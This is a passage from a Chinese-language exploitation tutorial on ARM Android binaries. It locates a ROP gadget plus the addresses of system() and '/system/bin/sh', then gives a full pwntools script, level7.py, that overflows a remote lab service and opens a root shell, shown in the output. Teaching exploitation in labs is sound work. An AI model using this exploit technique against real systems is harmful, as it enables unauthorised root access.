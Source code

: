 在这些gadgets中，我们成功找到了一个gadget可以符合我们的要求：

```
0x0000894a : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}

```

接下来就是找system和`"/system/bin/sh"`的地址，分别为0x00008404和000096C0：

![p2](http://drops.javaweb.org/uploads/images/f6fb073fd53b985dfc1e3fddcb0640c76dfe9eea.jpg)

![p3](http://drops.javaweb.org/uploads/images/4b8fd8b7e8d92deb87dc7c34f2d977e761d6c8c9.jpg)

要注意的是，因为`system()`函数在plt区域，并没有被编译成thumb指令，而是普通的arm指令，因此并不需要将地址+1。最终level7.py如下：

```
#!/usr/bin/env python
from pwn import *

#p = process('./level7')
p = remote('30.10.20.253',10001)

p.recvuntil('\n')

#0x0000894a : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
gadget1 = 0x0000894a + 1

#"/system/bin/sh"
r0 = 0x000096C0

#.plt:00008404 ; int system(const char *command)
systemaddr = 0x00008404 

payload =  '\x00'*132 + p32(gadget1) + "\x00"*0xc + p32(r0) + "\x00"*0x4 + p32(systemaddr)

p.send(payload)

p.interactive()

```

执行结果如下：

```
$ python level7.py 
[+] Opening connection to 30.10.20.253 on port 10001: Done

[*] Switching to interactive mode
$ /system/bin/id
uid=0(root) gid=0(root) context=u:r:shell:s0

```

0x03 Android上的ASLR
==================
